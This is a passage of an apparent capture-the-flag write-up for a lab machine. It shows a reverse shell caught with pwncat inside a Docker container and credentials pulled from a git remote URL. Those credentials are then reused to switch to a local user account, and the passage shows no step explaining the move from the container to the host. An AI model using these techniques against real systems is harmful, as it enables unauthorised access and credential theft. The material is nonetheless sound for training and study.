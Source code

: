Successfully acquired a shell as the user `www-data` within what appears to be a Docker container environment.

```bash
(local) pwncat$ connect -lp 9005
[10:22:49] received connection from 10.10.11.209:45642                                                   bind.py:84
[10:22:52] 0.0.0.0:9005: upgrading from /bin/dash to /bin/bash                                       manager.py:957
[10:22:53] 10.10.11.209:45642: registered new host w/ db                                             manager.py:957
(local) pwncat$
(remote) www-data@53d93393da5c:/var/www/staffroom$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@53d93393da5c:/var/www/staffroom$ hostname
53d93393da5c
(remote) www-data@53d93393da5c:/var/www/staffroom$ ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 Jul 19 12:29 /.dockerenv
```

### Docker escape

The git repository containing the source code for the site is located at `/var/www/staffroom`. While enumerating the git repository, came across credentials within the Git remote URL.

```bash
(remote) www-data@53d93393da5c:/var/www/staffroom$ git log --pretty=oneline
4b6cd765986ff06ea7247528c42b4127633beb22 (HEAD -> main, origin/main, origin/HEAD) fixed path bug & email spam
1677521748602cce2f0d7ab25664ac6d414e26ef fixed path problem
4d3b167f4f228d18f97bb85da6983ff629274a3a added site

(remote) www-data@53d93393da5c:/var/www/staffroom$ git remote -v
origin  http://matthew:HueLover83%23@gitea:3000/matthew/staffroom.git (fetch)
origin  http://matthew:HueLover83%23@gitea:3000/matthew/staffroom.git (push)
```

Although the credentials seem to be invalid on Gitea, there's an interesting nuance with the URL encoding. The `%23` is URL-encoded and translates to a `#` symbol. Consequently, Gitea accepts the credentials `matthew:HueLover83#`. These same credentials are also reused on `matthew`'s local account.

```bash
(remote) tristan@mailroom:/dev/shm$ su matthew
Password:
matthew@mailroom:/dev/shm$ id
uid=1001(matthew) gid=1001(matthew) groups=1001(matthew)
matthew@mailroom:/dev/shm$ cd
matthew@mailroom:~$ ls -la
total 32
drwxr-xr-x 3 matthew matthew 4096 Jul 19 14:40 .
drwxr-xr-x 4 root    root    4096 Jan 15  2023 ..
lrwxrwxrwx 1 matthew matthew    9 Jan 15  2023 .bash_history -> /dev/null
-rw-r--r-- 1 matthew matthew  220 Jan 15  2023 .bash_logout
-rw-r--r-- 1 matthew matthew 3771 Jan 15  2023 .bashrc
drwx------ 2 matthew matthew 4096 Jan 15  2023 .cache
lrwxrwxrwx 1 root    root       9 Jan 15  2023 .kpcli-history -> /dev/null
-rw-r--r-- 1 matthew matthew 1998 Mar 16 22:47 personal.kdbx
-rw-r--r-- 1 matthew matthew  807 Jan 15  2023 .profile
-rw-r----- 1 root    matthew   33 Jul 19 12:29 user.txt
lrwxrwxrwx 1 matthew matthew    9 Jan 15  2023 .viminfo -> /dev/null
```

---